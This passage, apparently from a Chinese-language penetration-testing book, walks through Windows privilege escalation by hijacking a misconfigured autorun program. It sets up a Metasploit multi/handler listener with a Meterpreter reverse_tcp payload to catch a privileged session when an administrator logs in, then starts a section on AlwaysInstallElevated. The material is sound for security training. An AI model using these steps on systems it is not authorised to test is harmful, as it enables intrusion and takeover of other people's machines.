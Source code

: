     ](Images/B17389_09_005.jpg)

    图 9.5 – 上传自定义 Autorun 程序

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use /exploit/multi/handler`

1.  下一步是指定我们使用 MSFvenom 创建二进制文件时所用的有效载荷。可以通过运行以下命令来完成：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    现在，我们需要配置模块选项。在这种情况下，我们需要配置`LHOST`和`LPORT`选项，如以下截图所示：

    ![图 9.6 – Meterpreter 负载选项](img/B17389_09_008.jpg)

    ](Images/B17389_09_006.jpg)

    图 9.6 – Meterpreter 负载选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    `run`

    监听器将监听我们通过 MSFvenom 生成的负载发出的任何传入连接。

1.  我们的自定义自动运行程序将在管理员下次登录时自动执行，之后我们应该会收到一个特权的 Meterpreter 会话，如下截图所示：

![图 9.7 – 自动运行 Meterpreter 会话](img/B17389_09_007.jpg)

](Images/B17389_09_007.jpg)

图 9.7 – 自动运行 Meterpreter 会话

有了这个，我们成功地通过利用具有配置错误权限的自动运行程序提升了我们的权限。

# 利用 Always Install Elevated 功能

AlwaysInstallElevated 是一个 Windows 功能，它允许没有管理员权限的标准用户帐户以管理员权限安装打包为`Microsoft Windows Installer`（**MSI**）格式的软件。
